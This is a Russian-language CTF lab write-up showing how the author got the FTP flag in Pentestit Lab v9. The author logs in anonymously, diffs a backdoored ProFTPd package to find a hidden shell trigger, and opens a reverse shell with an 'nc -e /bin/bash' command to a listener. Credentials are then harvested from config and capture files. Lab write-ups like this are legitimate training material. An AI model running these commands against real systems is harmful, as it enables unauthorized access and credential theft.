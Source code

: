 ## Получение флага FTP в лаборатории Pentestit.ru Lab v 9

И так нашей следующей целью являетя FTP. Для того чтобы понять куда дальше двигаться, нам нужно получить возможности которые у нас есть на фтп. 

![VirtualBox_Kali2016.2_21_09_2016_00_04_37](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_21_09_2016_00_04_37.png)

Просканируем этот хост посредством nmap через proxychains, выполним команду proxychains `nmap -sT -PN -n -sV 172.16.0.4` . Результат сканирования дал нам следующее:

![VirtualBox_Kali2016.2_21_09_2016_00_06_59](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_21_09_2016_00_06_59.png)

У нас открыт порт 21 и 22, нас конечно же интересует порт 21, выбор у нас тут не большой. Пробуем использовать пароли, которые мы получили из бекапа паролей прокси ранее, для входа на ftp, но увы ни один не подходит. Тогда пробуем найти какой то эксплоит для версии ProFTPd, но увы все выглядит так как будт-то дырки пропатчены. Остается - анонимный вход. Пробуем - вводим команду `proxychains ftp -p 172.16.0.4` и в качестве логина вводим anonymous и радуемся сообщению системы что анонимный доступ разрешен, вводим любой пароль и входим на ftp. 

![VirtualBox_Kali2016.2_20_09_2016_21_59_57](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_21_59_57.png)

Далее нам нужно осмотреться и понять что у нас имеется в нашем распоряжении.  

![VirtualBox_Kali2016.2_20_09_2016_22_00_55](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_00_55.png)

И нашему вниманию предстает папка `dist`. Заглянем в нее!

![VirtualBox_Kali2016.2_20_09_2016_22_01_41](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_01_41.png)

А в ней deb пакет и архив с дистрибутивом proftpd. Вот спросите вы: "А зачем тут лежат эти файлы?". Меня это тоже удивило. Думаю на них стоит взглянуть, а нет ли в этих дистрибутивах каких либо изменений. 

Скачиваем эти дистрибутивы. Посредством `proxychains` это очень легко, так как работают все команды ftp так как будт-то мы внутри сети. Так что воспользовавшись командой get навзвание_файла (этих команд придется выполнить 2-е), выкачиваем сразу на свою машину эти два файла. 

![VirtualBox_Kali2016.2_20_09_2016_22_02_27](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_02_27.png)

Но для того чтобы сравнить и найти изменения в файлах нужно скачать аналогичный пакет с официальных репо.  ![VirtualBox_Kali2016.2_20_09_2016_22_07_40](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_07_40.png)

Проходимся по скачанным файлам binwalk убеждаемся что это архивы и deb пакет. 

![VirtualBox_Kali2016.2_20_09_2016_22_11_35](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_11_35.png)

Качаем оригинальный proftpd версии  1.3.5 - конечно же сам архив с исходниками весит намного меньше того файла что мы получили с ftp.

![VirtualBox_Kali2016.2_20_09_2016_22_13_30](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_13_30.png)

Кладем в одну папку оба файла и распаковываем их. После распаковки в дело вступает binwally - очень удобный инструмент для поиска различий в файлах написанны на python. Репозиторий тут https://github.com/bmaia/binwally

 ![VirtualBox_Kali2016.2_20_09_2016_23_49_50](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_49_50.png)

Выполняем команду python `binwally.py ~/PENTESTIT/analyze/proftpd-dfsg-1.3.5_orig ~/PENTESTIT/analyze/proftpd-dfsg-1.3.5_pentestit/ | grep -E -v "ignored|matches|unique"`  и получаем небольшой список отличающихся файлов и используя diff просмотриваем по аналогичным путям обе врсии файла. Просморев так много файлов я наткнулся на изменения в help.c и сравнив два файла - понял что искал именно это, так как в строке присутсвовало название организации большими буквами (потом узнал что другие искали по названию организации используя grep). Но в мою голову такая мысль не пришла и я сделал все как делают люди при анализе изменений, без всякого читерства и предположений.

![VirtualBox_Kali2016.2_20_09_2016_22_44_34](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_44_34.png)

Тут видно что при вводе команды CYBEAR32C как аргумент для команды help при соединении к ftp можно получить доступ к шеллу. Хм забавно запрятан бекдор, подумал я. И решил взглянуть на окружаюшие строки в help.c.

![VirtualBox_Kali2016.2_20_09_2016_22_46_05](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_46_05.png)

Открываем vim сразу на нужной строке 131, которая фигурирует в diff. 

![VirtualBox_Kali2016.2_20_09_2016_22_46_31](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_46_31.png)

вот измененный пакет и тут присутсвует эта строка, а ниже представлен оригинальный код.

![VirtualBox_Kali2016.2_20_09_2016_22_47_38](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_47_38.png)

Как видим срока отсуствует. Значит мы на правильном пути. Да уж очень интересно! Пробуем подконнектиться посредством telnet на 21 порт, так как тут также есть возможность работы через telnet соединение. Набираем команду `proxychains telnet 172.16.0.4 21` и попадаем на ftp. Теперь нам нужно проинспектировать работу команды `help CYBEAR32C`. 

![VirtualBox_Kali2016.2_20_09_2016_22_53_44](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_53_44.png)

Пытаемся набрать просто команду `CYBEAR32C`, но она без help не срабатывает. Тогда набираем команду `help CYBEAR32C` и наблюдаем очень странную картину. Вроде как очень похоже на шелл, но при вводе команд, не получается увидеть результата, т.е. вывода нет. Значит нам нужно попытаться при помощи nc организовать нормальный шелл. Для этого выпоним следующие действия:

![VirtualBox_Kali2016.2_20_09_2016_23_32_19](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_32_19.png)

 на машине ssh запускаем слушатель `nc -vlp 8989`, а из шелл запустить команду `nc -e /bin/bash 172.16.0.2 8989` . И у нас все получается с первого раза. Теперь у нас есть полноценный шелл и бекдор заложенный в ProFTPd работает!

![VirtualBox_Kali2016.2_20_09_2016_23_31_39](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_31_39.png)

Теперь как видим при вводе команды, вывод получается нормально! Теперь остается просмотреть файлы и определиться с содержимым, а также найти флаг!

![VirtualBox_Kali2016.2_20_09_2016_23_33_02](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_33_02.png)

Проходим по папкам и видим что есть интересные папки в которых можно поискать полезную информацию.  

![VirtualBox_Kali2016.2_20_09_2016_23_35_11](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_35_11.png)

К текущему моменту, когда я пишу прохождение в папке уже куча файлов созданных участниками. Но целевыми фалами тут являются `router-config.old` и `trouble.cap`.

![VirtualBox_Kali2016.2_20_09_2016_23_35_34](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_35_34.png)

Выполняем команду cat router-config.old и просмотриваем содержимое файла.

![VirtualBox_Kali2016.2_20_09_2016_23_36_52](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_36_52.png)

Ниже замечаем пароль и логин пользователя. 

![VirtualBox_Kali2016.2_20_09_2016_23_37_17](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_37_17.png)

Эти данные нам возможно пригодятся в будущем, но пока идем далее и продолжаем собирать инфомацию. Смотрим что же может быть интересного в trouble.cap и видим также логин и пароль пользователя `m.barry`, запоминаем, запимываем, складываем в отдельный документ все что нашли для будущего использования.

![VirtualBox_Kali2016.2_20_09_2016_23_41_52](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_41_52.png)

В этом дампе видим некое перемещение скрипта на python, пока что нет предположений для чего это нужно.

![VirtualBox_Kali2016.2_20_09_2016_23_43_16](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_43_16.png)

Идем дальше. Заходим в папку old и смотрим содрежимое файла ftp_test.txt и видим наш заветный флаг от FTP. Идем и фиксируем получение флага в профиле! И так у нас есть доступ к ftp, а также логин и пароль для доступа на роутер, но мы уже и так получли флаг CISCO. Так что эти данные могут нам пригодиться в других направлениях.

![VirtualBox_Kali2016.2_20_09_2016_23_45_23](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_45_23.png)

